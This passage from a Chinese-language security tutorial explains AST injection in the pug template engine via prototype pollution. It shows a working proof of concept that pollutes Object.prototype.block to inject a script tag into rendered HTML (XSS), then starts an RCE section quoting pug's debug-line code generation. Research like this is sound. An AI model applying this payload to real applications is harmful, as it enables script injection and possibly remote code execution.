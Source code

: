 以刚刚生成的语法树结构举例，解析顺序为：

1.  Block
2.  Tag
3.  Block
4.  Code
5.  …?

注意第 4 步解析 `node.Type` 为 `Code` 类型，会执行如下代码：

```plain
case 'Code':
        case 'While':
          if (ast.block) { // 注意这里
            ast.block = walkAST(ast.block, before, after, options);
          }
```

1.  判断 `ast.block` 属性是否存在，此处的 `ast` 即当前 ast 语法树的节点
2.  如果存在，继续递归解析 block

#### 结合原型链污染

如果某处存在原型链污染漏洞，使得

```plain
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
```

那么 `ast.block` 就会访问到 `ast.__proto__.block` ，即`Object.prototype.block` 的属性

此时代码输出结果，导致了 XSS

```plain
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

## RCE

我们知道 pug 本质上是将一段代码，如 `h1 =msg` 编译为一段 js 代码，背后其实就是生成语法树 + `new Function`

因此如果能通过 AST Injection 插入节点，并使之成为代码，即可达到远程代码执行的目的。

刚好 pug 中就有如下代码：

```plain
// /node_modules/pug-code-gen/index.js

if (debug && node.debug !== false && node.type !== 'Block') {  
    if (node.line) {  
        var js = ';pug_debug_line = ' + node.line;  
        if (node.filename)  
            js += ';pug_debug_filename = ' + stringify(node.filename);  
        this.buf.push(js + ';');  
    }  
}
```
